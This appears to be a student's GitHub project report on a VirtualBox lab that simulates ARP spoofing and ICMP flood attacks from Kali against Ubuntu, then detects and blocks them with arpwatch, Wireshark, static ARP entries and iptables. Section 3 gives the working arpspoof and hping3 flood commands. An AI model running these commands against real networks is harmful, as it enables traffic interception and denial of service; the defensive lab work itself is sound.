# virtual-network-attack-defense-lab
This project simulates and defends against ARP spoofing and ICMP flood (DoS) attacks in a virtualized lab using Kali and Ubuntu VMs. It includes Wireshark captures, arpwatch detection, static ARP hardening, and iptables firewall rules to mitigate attacks. A great hands-on showcase of Layer 2/3 network security.

# Technical Project Report: Simulation and Defense Against ARP Spoofing and Ping Flood Attacks in a Virtualized Lab Environment  
**By Ifeoluwa (SysVenom)**

---

## 1. Introduction

In this project, I created a small virtual lab to simulate ARP spoofing and ICMP flood attacks. I then detected and defended against these attacks using various Linux tools and techniques. Additionally, I tested and verified network traffic captures using Wireshark. This hands-on experience helped me understand how real-world Layer 2 and Layer 3 attacks happen and how to mitigate them.

---

## 2. Virtual Lab Environment Setup

### 2.1 Tools and Software

- VirtualBox (Hypervisor)  
- Kali Linux (Attacker VM) — IP: 10.0.2.15  
- Ubuntu Desktop (Defender VM) — IP: 10.0.2.4  

### 2.2 Network Configuration

Both VMs were configured to use NAT networking.

- Gateway IP: 10.0.2.1  
- Ubuntu interface: enp0s3  
- Kali interface: eth0  

### 2.3 Interface Verification

I ran:

```bash
ip a
```

to check the active network interfaces.

I also ran:

```bash
ip route
```

to verify the gateway IP address.


For Kali (Attacker):  



For Ubuntu (Victim/Defender):  


### 2.4 Traffic Simulation and Detection

#### 2.4.1 Testing SYN Simulation

Test traffic simulation was then performed using the Kali Linux machine. SYN packets were generated to test the setup using the following command:
from kali to to ubuntu:

```bash
ping -c 4 10.0.2.4
```



from the Ubuntu Linux machine to the Kali machine, and:

```bash
ping -c 4 10.0.2.15
``` 


Both tests were successful, confirming that the VMs could reach each other over the network and were ready for attack simulation.


#### 2.4.1.1 Snort Live Capture  


#### 2.4.1.2 Wireshark Capture  


---

## 3. Attack Simulation

### 3.1 ARP Spoofing Attack

#### 3.1.1 Preparation on Kali

I updated the package lists and installed dsniff:

```bash
sudo apt update
sudo apt install dsniff
```

I used:

```bash
sudo arp-scan –interface eth0 --localnet
```

to identify my network interface (eth0) and my victim’s IP address.



Then I launched the ARP spoofing attack by running:

```bash
sudo arpspoof -i eth0 -t 10.0.2.4 10.0.2.1
sudo arpspoof -i eth0 -t 10.0.2.1 10.0.2.4
```



#### 3.1.2 Checking the Victim's ARP Table

On Ubuntu, I ran:

```bash
arp -n
```

**Before the attack**, the ARP table showed:


```
10.0.2.1 -> 52:54:00:12:35:00
```

**After launching the spoofing attack**, the ARP table changed to:


```
10.0.2.1 -> 08:00:27:59:e2:dc
10.0.2.15 -> 08:00:27:59:e2:dc
```

This showed that the spoofing attack was successful because both IPs now pointed to the attacker's MAC address.

I could also capture the attack on Wireshark.




---

### 3.2 Ping Flood (ICMP DoS Attack)

I also ran a ping flood using:

```bash
ping -f 10.0.2.4
```

Then, I installed and used `hping3` for a more aggressive flood:

```bash
sudo apt install hping3
sudo hping3 -1 --flood -p 80 10.0.2.4
```


This caused the victim machine to experience high CPU usage and network slowdowns.

---

### 3.3 Verifying Attack using Wireshark

I also tested network packet capture with Wireshark. I ran Wireshark on the Ubuntu machine and captured traffic during the ARP spoofing and ping flood attacks.

In Wireshark, I could see:

- Duplicate ARP replies from the attacker's MAC address.  
- Large amounts of ICMP Echo Requests during the ping flood.  

This confirmed that the network attacks were successfully occurring at the packet level.



---

## 4. Defense Mechanisms

### 4.1 Detecting ARP Spoofing with arpwatch

#### 4.1.1 Installation and Execution

On Ubuntu, I installed arpwatch by running:

```bash
sudo apt update
sudo apt install arpwatch
```

Then I started monitoring ARP changes:

```bash
sudo arpwatch -i enp0s3 -f /var/lib/arpwatch/arp.dat
```

#### 4.1.2 Monitoring Logs

I used:

```bash
sudo tail -f /var/log/syslog
```

I detected that arpwatch logged a message showing that the MAC address for 10.0.2.1 had changed, which confirmed the spoofing attack:

```
arpwatch: changed ethernet address 10.0.2.1 08:00:27:59:e2:dc (52:54:00:12:35:00)
```



---

### 4.2 Manually Setting Static ARP Entries

When I saw the spoofing, I manually removed the poisoned entries using:

```bash
sudo ip neigh del 10.0.2.1 dev enp0s3
sudo ip neigh del 10.0.2.15 dev enp0s3
```

Then I manually set the correct gateway MAC address with:

```bash
sudo arp -s 10.0.2.1 52:54:00:12:35:00
```

I ran:

```bash
arp -n
```

and confirmed that the ARP table now had a permanent entry (PERM), preventing any further spoofing.


---

### 4.3 Ping Flood Mitigation using iptables

To defend against ICMP flooding, I added firewall rules:

```bash
sudo iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 1/s -j ACCEPT
sudo iptables -A INPUT -p icmp --icmp-type echo-request -j DROP
```

This limited incoming pings to 1 per second and dropped any extra flood packets.

This proves defense against icmp flood is properly implemented as only 1 packet per second is allowed and over 22,000 of them failed.

I tested the firewall again by sending flood mode packets:


- **Duration**: ~17.3 seconds  
- **Packets Sent**: 1021  
- **Packets Received**: 18  
- **Packet Loss**: 98.24%  

### Results & Analysis

- **Extremely High Packet Loss (98.24%)**  
- The target (10.0.2.4) only responded to 18 out of 1021 packets (~1.76% response rate).  
- This suggests:
  - The target has rate-limiting (e.g., firewall rules dropping excessive ICMP requests).  
  - The system may be configured to accept only ~1 ping per second/minute (as observed).  
  - Possible ICMP throttling or DoS protection in place.  

**Latency Observations**

- Min/Avg/Max Latency: 0.930 ms / 2.054 ms / 8.669 ms  
- When responses did come through, they were relatively fast, meaning the target was not overwhelmed—just filtering aggressively.

---

## 5. Challenges and Problems I Faced

- I faced an interface mismatch issue. Kali had eth0 but Ubuntu had enp0s3.  
- I noticed the ARP cache was initially empty, so I had to ping the gateway first to populate it.  
- After the spoof attack, the ARP cache had wrong entries which I needed to delete manually.  
- arpwatch gave a warning about missing sendmail, but it still logged detections properly.  
- Capturing packets required filtering and interpreting traffic carefully in Wireshark.

---

## 6. Things I Learned

- Always verify network interfaces before attacking or defending.  
- ARP cache behavior and how dynamic entries can be poisoned.  
- How to set static ARP entries to prevent attacks.  
- How to use arpwatch for real-time ARP monitoring.  
- How to mitigate ping floods using iptables rules.  
- How to analyze network traffic at packet level using Wireshark.

---

## 7. Future Enhancements

- Automate the static ARP entry setup after reboot using systemd scripts.  
- Add IDS/IPS tools like Snort and Suricata for deep packet inspection.  
- Set up centralized syslog servers for better attack logging.  
- Create scripts that automatically alert and block suspicious MAC address changes.  
- Expand the lab to simulate man-in-the-middle attacks, DNS spoofing, and DHCP starvation attacks.  
- Perform SSL/TLS traffic analysis to detect HTTPS session hijacking attempts.  
- Build automatic response mechanisms that block suspected attackers based on ARPwatch alerts.

---

## 8. Conclusion

I successfully set up a virtual lab, simulated ARP spoofing and ping flood attacks, detected the spoofing using arpwatch, captured and analyzed the attacks with Wireshark, and defended against them by manually setting static ARP entries and adding iptables rules. This project gave me valuable hands-on experience with both offensive and defensive network security skills at the packet level.
